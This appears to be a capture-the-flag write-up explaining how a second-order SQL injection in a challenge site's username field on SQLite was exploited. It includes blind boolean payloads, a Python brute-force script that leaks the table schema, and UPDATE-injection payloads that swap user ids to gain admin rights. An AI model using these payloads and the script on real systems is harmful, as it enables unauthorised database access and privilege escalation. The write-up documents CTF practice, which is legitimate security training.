

## Description:
This was a pretty cool challenge. It was easy to determine that the site is vulnerable to SQLi. But the difficult part was exploiting it to become admin.


## Enumeration:

Adding single " results in the following error. 


After a few tests, I found out it's using SQLite and by decoding the cookie we can leak the role table.
```sh
┌──(kali㉿kali)-[~/…/CTF/BCACTF/misc/jailbreak_last]
└─$ echo eyJkYiI6IjFjM2VhODU3ZmY4MWY2ZDAzNDE0NzZlNTNhOTEzZjU3Iiwicm9sZV90YWJsZSI6InJvbGVzXzA1YTk3NDg1ZTE4MDQ0ZDQifQ.ZmTmHg.k3RSxlmOA9a5_Pwf2ZsauCmap5M | base64 -d
{"db":"1c3ea857ff81f6d0341476e53a913f57","role_table":"roles_05a97485e18044d4"}base64: invalid input
```

Query at the backend should look something like this:
```js
UPDATE users
SET     name = "(User Input)"
WHERE id = 1
```


Payload to check the length of the table SCHEMA. The payload is checking if the second condition is true or not. ( "" OR 1=1 -- ) should return in 1 as the first condition is False as we keep the name empty and 1=1 is True, this will assign the username as 1. ( "" OR 1=0 -- ) But if the second condition is False then the username will become 0. I found its length to be 119.
```
" OR (SELECT LENGTH(sql) FROM sqlite_master WHERE type="table" AND name="roles_843b46a14818cf3e") > 119 --
```

Now to leak the SCHEMA, for some reason, SQLMap wasn't working well with second-order injection and I had to write the following script to bruteforce.

```python
import requests, string
 
url = "http://challs.bcactf.com:31406/" 
length = 119
leak = ""
# Update the table name and cookie value
role_table = "roles_289ff29f827e6f06"
cookies = {"session": "eyJkYiI6IjBhOTQ3M2U1NGNlZTBkNjc0YzZmODdmYWQzMGI3Yzg0Iiwicm9sZV90YWJsZSI6InJvbGVzXzI4OWZmMjlmODI3ZTZmMDYifQ.ZmTs2w.Mdx1fbM32zrwR8y5cPRbm71s5XA"}
 
for index in range(0,length+1): 
    for char in string.printable:
        # schema leak Query
        payload = f'" OR "{char}"=(SELECT(SUBSTR((SELECT sql FROM sqlite_master WHERE type="table" AND name="{role_table}"),{index},1)) ) --'

        data = {"username":payload} 
        response = requests.post(url+"/set-username", data=data, cookies=cookies)
        output = response.text.split("Your username is ")[1].split(".")[0] 
        if output == "1":
            leak+=char
            print(f"@ {index} Got {char} | Leaked: {leak}  ")
            break
        
print(leak)   
```

This revealed two tables - users and role_* table. Role table has Foreign Key on Update it basically means that the users id will be stuck to roles admin on Update. This is crucial information to exploit.
```js
users: CREATE TABLE users (id INTEGER PRIMARY KEY, name TEXT NOT NULL)
role: CREATE TABLE roles_843b46a14818cf3e (id INTEGER, admin INTEGER, FOREIGN KEY(id) REFERENCES users(id) ON UPDATE CASCADE) 
```

You can use something like the following to easily leak the tables.
```
", name=(SELECT GROUP_CONCAT(admin,"|") from roles_57fd80a6ac365e90 WHERE id = 0 ) WHERE id=1 --
```


                           
```
User                             Role   
| id    | name  |               | id    | admin |
|-------|-------|               |-------|-------|
|   0   | admin |               |   0   |   1   |
|   1   | input |               |   1   |   0   |
```
 


Our user id will always remain 1 so the only way to become admin is to make the admin's user id 1.


## Exploitation

1. Make admin id 3
```
    admin" , id = 3 where id=0 -- 
```
2. Make user id 4 and admin id 1
```
    ", id =  CASE WHEN id=1 THEN 4 WHEN id=3 THEN 1 END  WHERE id IN (1,3,4)  --
```

    

